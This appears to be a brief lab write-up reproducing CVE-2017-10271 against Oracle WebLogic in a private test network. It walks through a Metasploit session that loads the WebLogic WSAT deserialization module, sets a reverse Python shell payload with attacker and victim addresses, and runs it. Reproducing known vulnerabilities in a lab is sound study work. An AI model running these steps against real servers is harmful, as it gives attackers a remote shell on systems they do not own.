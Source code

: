 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

***


# **Environment**

| Type       | OS              | IP              | App                                      |
| :---       | :---            | :---            | :---                                     |
| Victim     | Ubuntu 18.04.3  | 192.168.108.131 | Solaris 11.4 x86</br>WebLogic 12.1.3.0.0 |
| Attacker   | Kali 2019       | 192.168.108.132 |                                          |

# **Setting**

```sh
root@srv:~# cd /export/home/oracle/Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain
root@srv:~# ./startWebLogic.sh
```


# **Exploit**

```sh
root@attack:~# msfconsole
msf5 > search cve-2017-10271
```

![](images/2022-05-20-15-03-50.png)

```sh
msf5 > use exploit/multi/http/oracle_weblogic_wsat_deserialization_rce
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > set target 1
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > set payload cmd/unix/reverse_python
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > set lhost 192.168.108.132
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > set rhost 192.168.108.131
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > exploit
```

![](images/2022-05-20-15-04-57.png)